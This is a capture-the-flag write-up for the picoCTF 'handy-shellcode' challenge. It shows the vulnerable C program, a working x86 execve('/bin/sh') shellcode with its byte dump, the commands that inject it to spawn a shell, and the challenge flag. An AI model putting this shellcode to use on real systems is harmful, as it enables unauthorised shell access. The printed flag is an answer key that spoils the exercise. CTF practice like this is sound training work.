

# Binary Exploitation - handy-shellcode (50 points)

## Challenge

*This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb on the shell server. Source.*



```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

## Flag

picoCTF{h4ndY_d4ndY_sh311c0d3_15d47ccd}

## Walkthrough

The function `void vuln(char *buf)` is vulnerable to a buffer overflow, because of a call to `gets()` (no boundaries) rather than `fgets()` (which read only a limited number of char). But, this is not what we are going to use here.

The end of *vuln.c* cast `buf` as pointer to a function taking no arguments and returning void. Hence, we can inject a shellcode in `buf` to spawn a shell.

Let's create a simple shell code to invoke `/bin/sh` using a system call to `sys_execve()`.

```asm
; shellcode.nasm
bits 32

shellcode:
    ; reset registers
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    xor edx, edx

    ; push null terminator and //bin/sh on the stack
    ; to keep bytes alignment.
    push eax
    push 0x68732f6e
    push 0x69622F2F
    
    ; /bin/sh\0 on top of the stack
    mov ebx, esp

    ; system call to sys_execve (system call 11)
    mov al, 11
    int 0x80
```

Now let's assemble it :

```bash
> nasm -f elf32 -o shellcode.o shellcode.nasm
> ld -m elf_i386 -s -o shellcode shellcode.o
```

And dump the shellcode :

```
> hexdump -v -e '"\\""x" 1/1 "%02x" ""' shellcode
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80\x00\x2e\x73\x68\x73\x74\x72\x74\x61\x62\x00\x2e\x74\x65\x78\x74
```

OK, let's try this in the vulnerable binary :

```bash
m3oow@pico-2019-shell1:/problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb$ (echo -en "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80\x00\x2e\x73\x68\x73\x74\x72\x74\x61\x62\x00\x2e\x74\x65\x78\x74"; cat -) | ./vuln
Enter your shellcode:

1�1�1�1�Phn/shh//bi��
                    ̀
Thanks! Executing now...
ls
flag.txt  vuln  vuln.c
cat flag.txt
picoCTF{h4ndY_d4ndY_sh311c0d3_15d47ccd}
```
